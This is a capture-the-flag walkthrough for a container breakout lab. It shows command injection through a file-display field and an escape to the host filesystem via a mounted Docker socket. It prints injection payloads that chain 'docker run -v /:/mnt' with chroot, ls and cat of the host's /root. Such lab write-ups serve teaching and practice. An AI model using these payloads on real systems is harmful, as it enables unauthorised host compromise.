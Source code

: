 # Container Breakout Walkthrough

You find the portal and the first thing you try is to display the content of the "flag.txt" file, with no luck:  
![firsttry](./images/first_try.png)  

maybe you are able to pipe commands and excape the file content display functionality:  
![rce](./images/rce.png)  

The application is vulnerable to RCE!  

Try to display the content of the Dockerfile:  
![dockerfile](./images/docker_sock.png)  

The docker sock is mounted inside the container, you can leverage this!  

Check if docker is available inside the container:  
![docker_version](./images/docker_version.png)  

It is!  
So you know that the docker sock is mounted inside the container and you have the docker cli, let's try to start a new container:  
```sh
example.txt ; docker run -v /:/mnt --rm -it busybox chroot /mnt sh
```  
Unfortunately you cannot open a shell:  
![tty](./images/tty.png)  

You need to do a bit of manual enumeration:  
```sh
example.txt ; docker run -v /:/mnt --rm busybox ls -lah /mnt/root/
```  
![file](./images/found_flag_file.png)  


At this point you can read that file content:  
```sh
example.txt ; docker run -v /:/mnt --rm busybox cat /mnt/root/flag.txt
```  

![flag](./images/flag.png)  

Congrats! You found the flag! 🎉 🏴  






